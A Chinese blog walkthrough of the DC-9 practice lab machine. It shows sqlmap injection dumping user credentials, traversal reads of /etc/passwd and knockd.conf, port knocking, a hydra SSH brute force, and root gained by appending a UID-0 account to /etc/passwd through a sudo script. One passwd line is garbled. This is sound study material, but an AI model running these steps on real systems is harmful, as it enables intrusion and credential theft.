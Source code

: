 ```yaml
---
title: DC-9
author: Pp1ove
avatar: \img\custom\head.jpg
authorLink: 
authorAbout: Pplover
authorDesc: 一个好奇的人
categories: 靶机
comments: false
date: 2021-02-18 21:30:54
tags: 渗透
keywords:
description:
photos: \img\article\25.png
---
```


# 信息搜集

## 主机发现

```
nmap -sn 192.168.182.0/24

nmap -sS 192.168.182.150
```

![image-20210218213315538](DC-9/image-20210218213315538.png)

# 数据库攻击

访问80端口

![image-20210218213359098](DC-9/image-20210218213359098.png)

发现有像数据库的查询

![image-20210218213452605](DC-9/image-20210218213452605.png)

![image-20210218213502617](DC-9/image-20210218213502617.png)

发现results.php下有sql注入 （这里我最开始写的是search.php结果跑没出来,它search提交到的是results界面,所以这里应该是results.php)

```bash
sqlmap -u "http://192.168.182.150/results.php" --data "search=1" --dbs
sqlmap -u "http://192.168.182.150/results.php" --data "search=1" -D Staff --tables
sqlmap -u "http://192.168.182.150/results.php" --data "search=1" -D Staff -T Users --columns
sqlmap -u "http://192.168.182.150/results.php" --data "search=1" -D Staff -T Users -C "Username,Password" --dump
```

因为密码有md5加密,sqlmap会提示你是否用字典跑,选默认的字典就能跑出来

![image-20210218215608969](DC-9/image-20210218215608969.png)

同样的,也去跑一下users数据库

![image-20210218220642357](DC-9/image-20210218220642357.png)

先留着,后面可能能用上

# getshell

登录后发现了这个

![image-20210218215814517](DC-9/image-20210218215814517.png)

疑似存在文件包含漏洞，猜测文件参数是**file**

```undefined
?file=../../../../etc/passwd
```

![image-20210218220032306](DC-9/image-20210218220032306.png)

发现用户名和我们之前users数据库中的一样,

然后登录ssh,但是失败了,以为22端口是堵塞状态

## knockd服务

https://www.cnblogs.com/xiaoxiaoleo/p/8523322.html

端口敲门服务，即：knockd服务。该服务通过动态的添加iptables规则来隐藏系统开启的服务，使用自定义的一系列序列号来“敲门”，使系统开启需要访问的服务端口，才能对外访问。不使用时，再使用自定义的序列号来“关门”，将端口关闭，不对外监听。进一步提升了服务和系统的安全性。　　

简单来说就是：知道它的自定义端口后，依次对其进行敲门，然后就可以开启ssh服务从而进行连接了。它的默认配置文件为：/etc/knockd.conf

所以现在就是要知道它的这个配置文件的内容就可以得到它自定义的端口号，用文件包含漏洞把这个文件爆出来：

![image-20210218222045310](DC-9/image-20210218222045310.png)

确实有这个配置文件，那么就先用knock命令使得靶机的SSH端口对我的攻击机开放：

```
sudo apt-get install knockd # 安装knockd工具，其中包括knock命令
knock 192.168.182.150 7469 8475 9842 # 使用序列号knock靶机
```

然后将刚才sqlmap跑出来的账号密码写入两个文件中准备撞库

```
hydra -L users.txt -P password.txt 192.168.211.142 ssh -vV
```

跑出来

```
login: chandlerb   password: UrAG0D!
login: joeyt   password: Passw0rd
login: janitor   password: Ilovepeepee
```

第一个和第二个不能访问其他目录

用第三个janitor登录发现有隐藏目录

![image-20210218222724654](DC-9/image-20210218222724654.png)

进入.secrets-for-putin

![image-20210218222813101](DC-9/image-20210218222813101.png)

将这些密码放入密码文件中,再一次爆破,成功爆破出fredf用户密码

```
login: fredf password: B4-Tru3-001
```

# 提权

![image-20210218223227482](DC-9/image-20210218223227482.png)

发现为python文件

![image-20210218223451261](DC-9/image-20210218223451261.png)

打开发现看不懂,应该是编译后的python文件,去找一下源文件

```bash
find / -name test.py -print 2>/dev/null #发现/opt/devstuff/test.py
cat /opt/devstuff/test.py
```

```python
#!/usr/bin/python

import sys

if len (sys.argv) != 3 :
    print ("Usage: python test.py read append")
    sys.exit (1)

else :
    f = open(sys.argv[1], "r")
    output = (f.read())

    f = open(sys.argv[2], "a")
    f.write(output)
    f.close()

```

该py文件就是将一文件内容追加到指定文件的后面。（由于存在sudo权限，可以向/etc/passwd文件写入拥有root权限的账户）

构造加密密码：
```
openssl passwd -1 -salt admin 123456
```
构造新的用户：
```
admin:1 11admin$LClYcRe.ee8dQwgrFc5nz.:0:0::/root:/bin/bash
```
将此串内容保存到一个文件中（一般选取家目录的文件或者/tmp临时文件）
```
echo 'admin:$1$admin$LClYcRe.ee8dQwgrFc5nz.:0:0::/root:/bin/bash' >> /tmp/admin
```
接下来运行test文件，写入/etc/passwd:
```
sudo ./test /tmp/admin /etc/passwd
```
登录设置的用户：su admin获取到root权限

![image-20210218224356247](DC-9/image-20210218224356247.png)

成功登录

![image-20210218224437827](DC-9/image-20210218224437827.png)